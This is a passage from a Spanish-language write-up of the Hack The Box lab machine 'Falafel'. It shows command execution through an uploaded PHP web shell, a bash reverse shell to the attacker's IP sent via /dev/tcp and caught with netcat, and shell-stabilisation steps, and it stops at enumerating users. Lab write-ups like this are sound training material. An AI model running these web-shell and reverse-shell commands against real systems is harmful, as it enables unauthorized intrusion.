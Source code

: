 Tengo la ruta donde se almacena

<img src="/writeups/assets/img/Falafel-htb/14.png" alt="">

Y obtengo RCE

```null
curl '10.10.10.73/uploads/0211-2107_98f7d2e6079b071c/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php?cmd=whoami'
www-data
```

Me puedo enviar una reverse shell a mi equipo

```null
curl "10.10.10.73/uploads/0211-2107_98f7d2e6079b071c/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.7/443+0>%261'"
```

Gano acceso en una sesión de netcat como ```www-data```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.73] 45426
bash: cannot set terminal process group (1303): Inappropriate ioctl for device
bash: no job control in this shell
www-data@falafel:/var/www/html/uploads/0211-2107_98f7d2e6079b071c$ script /dev/null -c bash
<tml/uploads/0211-2107_98f7d2e6079b071c$ script /dev/null -c bash            
Script started, file is /dev/null
www-data@falafel:/var/www/html/uploads/0211-2107_98f7d2e6079b071c$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
<tml/uploads/0211-2107_98f7d2e6079b071c$ reset xterm
<tml/uploads/0211-2107_98f7d2e6079b071c$ stty rows 55 columns 209            
www-data@falafel:/var/www/html/uploads/0211-2107_98f7d2e6079b071c$ export TERM=xterm
www-data@falafel:/var/www/html/uploads/0211-2107_98f7d2e6079b071c$ export SHELL=bash   
```

Estoy en la máquina víctima

```null
www-data@falafel:/var/www/html/uploads/0211-2107_98f7d2e6079b071c$ hostname -I
10.10.10.73 
```

Existen dos usuarios

